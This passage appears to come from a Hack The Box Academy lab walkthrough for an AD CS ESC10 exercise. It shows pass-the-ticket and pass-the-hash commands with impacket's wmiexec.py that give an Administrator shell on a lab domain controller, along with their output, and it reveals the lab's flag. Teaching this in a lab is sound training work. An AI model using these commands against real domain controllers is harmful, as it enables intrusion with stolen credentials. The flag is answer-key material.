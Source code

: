 With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` (using `psexec.py` will hinder finding the flag due to the different user it establishes the session with) to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Windows\System32\rbcd.txt`, students will attain the flag `HTB{ESC10_ATT4CK}`:

Code: cmd

```cmd
more "C:\Windows\System32\rbcd.txt"
```

```
C:\>more "C:\Windows\System32\rbcd.txt"

HTB{ESC10_ATT4CK}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Windows\System32\rbcd.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Windows\System32\rbcd.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Windows\System32\rbcd.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC10_ATT4CK}
```
